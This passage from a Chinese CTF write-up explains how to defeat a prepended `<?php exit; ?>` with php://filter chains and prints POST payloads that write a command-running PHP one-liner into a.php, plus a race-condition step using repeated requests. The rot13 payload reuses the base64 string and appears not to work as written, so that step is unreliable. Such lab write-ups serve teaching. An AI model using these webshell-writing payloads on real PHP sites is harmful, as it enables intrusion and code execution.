 

### 解法2：strip_tags()字符串操作函数

> ```
> strip_tags	(PHP 4, PHP 5, PHP 7, PHP 8)
> 
> strip_tags — 从字符串中去除 HTML 和 PHP 标记
> ```
>
> `<?php exit; ?>`实际上是一个XML标签，既然是XML标签，我们就可以利用strip_tags函数去除它，而php://filter刚好是支持这个方法的。

跟着P神的文章测试一下：

```php
<?php 
echo readfile('php://filter/read=string.strip_tags/resource=php://input');
```

可以看到传入的`<?php exit; ?>`已经被去除了
但我们要写入的一句话也是php代码，如果使用了strip_tags，一句话同样会被去除掉![](https://i.loli.net/2021/11/03/AuDo9EZseJvdVPX.png)

不过`php://filter`允许使用多个过滤器，只需要使用`|`间隔开来就好
先用`strip_tags`去除`<?php exit; ?>`，再用base64-decode解码咱们传入的base64编码后的一句话

payload：

```php
goods=PD9waHAgc3lzdGVtKCJjYXQgLi9mbGFnLnBocCIpOw==&train=php://filter/write=string.strip_tags|convert.base64-decode/resource=a.php
```

### 解法3：string.rot13

> `<?php exit; ?>`在经过rot13编码后会变成`<?cuc rkvg; ?>`，
> 在PHP不开启short_open_tag时，php不认识这个字符串，当然也就不会执行了：

用的是过滤器`string.rot13`，
需要php不开启短标签（short_open_tag）即`php.ini中short_open_tag = Off`

```
goods=PD9waHAgc3lzdGVtKCJjYXQgLi9mbGFnLnBocCIpOw==&train=php://filter/write=string.rot13/resource=a.php
```



### 拿flag

因为会删掉当前目录下的文件，所以得条件竞争访问，上面的payload都可以用

post，然后bp抓包，爆破模块疯狂重发包~

![](https://i.loli.net/2021/10/08/2KLtoVPuF39v7US.png)

访问a.php，查看源代码

![](https://i.loli.net/2021/10/08/lyCt7Gp3vkDThoJ.png)
